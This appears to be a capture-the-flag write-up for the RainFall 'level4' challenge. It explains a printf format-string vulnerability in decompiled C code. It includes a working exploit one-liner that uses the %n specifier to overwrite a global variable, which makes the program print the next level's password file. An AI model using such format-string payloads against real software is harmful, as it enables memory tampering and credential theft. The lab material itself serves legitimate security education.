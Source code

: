 # level4

This level is pretty much the same as the previous one.

However, instead of writing 64 chars we have to write 16930116 chars.

`printf` will take ages to print all these characters, so we have to find a way to speed up the process. Fortunately, there is a way to do this using two format specifiers:

```c
void n(void)
{
  char buffer[520];
  
  fgets(buffer, 512, stdin);
  p(buffer);
  if (m == 16930116) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void p(char *s)
{
  printf(s);
  return;
}
```

We need the address of the `m` variable, so using `objdump` we can find it:

```bash
level4@RainFall:~$ objdump -t level4 | grep m
08049810 g     O .bss   00000004              m
```

We can use a small trick using the %NNNd format specifier.

```python
python -c 'print "\x10\x98\x04\x08"+"%16930112d%12$n"' | ./level4
```